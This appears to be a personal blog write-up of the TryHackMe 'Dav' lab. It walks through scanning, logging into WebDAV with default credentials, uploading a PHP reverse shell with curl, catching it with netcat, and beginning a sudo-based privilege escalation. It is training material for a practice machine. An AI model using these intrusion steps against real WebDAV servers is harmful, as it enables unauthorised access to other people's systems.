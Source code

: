 ```yaml
---
title: TryHackMe - Dav
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, crack, SUID]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Dav/0.jpeg
    alt: Dav
---
```


# Dav

Boot2root machine for FIT and bsides guatemala CTF.  

# Tasks

Read user.txt and root.txt.  

# nmap

## `ip = 10.10.127.205`

## Command 
```sh
 nmap -sV -sC -A -v 10.10.127.205 | tee nmap.txt
```

## Results
```sh
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
106/tcp filtered pop3pw
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  

![](/assets/img/try%20hack%20me%20/Easy/Dav/1.png))

### gobuster
```sh
 gobuster dir -u http://10.10.127.205 -w /usr/share/wordlists/dirb/common.txt
 ```

![](/assets/img/try%20hack%20me%20/Easy/Dav/2.png))

We get this directory known as `/weddav`  
![](/assets/img/try%20hack%20me%20/Easy/Dav/3.png))

Here i need a username and password.  
Did some research and got this default credentials.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/4.png))

User = `wampp`  
pass = `xampp`  
Entering the credentials i get a file `passwd.dav`file.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/5.png))

`=wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`
Cracked the hash but got nothing much.  

I searched for web-dav vulnerability and got that we can upload files to it's server.  
I think if I can upload the shell and connect to it we can login into the system easily.  

I used a php reverse shell , changed the ip and uploaded it  
```sh
curl --user "wamp:xamp" http://10.10.127.205/webdev/ --upload-file reverseshell.php -v
```
![](/assets/img/try%20hack%20me%20/Easy/Dav/6.png))

Run nc cat on my machine then run the code.  
Got the shell and stabilized it.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/7.png))  


Now it's just a matter of looking for the `user.txt `   
![](/assets/img/try%20hack%20me%20/Easy/Dav/8.png))

# Privilege Escalation
For this i always first run  
- `sudo -l`
- cat `/etc/crontab`

## sudo -l
![](/assets/img/try%20hack%20me%20/Easy/Dav/9.png))  
This was simple since the user can read any file with `sudo` without a password.  